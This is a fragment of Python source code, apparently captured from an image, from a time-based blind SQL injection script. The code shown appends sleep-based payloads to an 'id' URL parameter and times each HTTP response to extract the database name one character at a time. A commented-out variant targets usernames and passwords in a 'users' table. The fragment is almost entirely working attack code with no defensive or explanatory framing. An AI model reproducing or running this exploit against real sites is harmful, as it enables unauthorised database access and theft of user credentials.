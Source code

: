 ```python 
            sqli_url = main_url + "?id=1 and if(ascii(substr(database(),%d,1))=%d,sleep(0.35),1)" % (position, character)
           #sqli_url = main_url + "?id=1 and if(ascii(substr((select group_concat(username,0x3a,password) from users),%d,1))=%d,sleep(0.35),1)" % (position, character)
            p1.status(sqli_url)
            time_start = time.time()
            r = requests.get(sqli_url)
            time_end = time.time()
            if time_end - time_start > 0.35:
                extrated_info += chr(character)
                p2.status(extrated_info)
                break

if __name__ == '__main__':
    MakeSQLI()
```



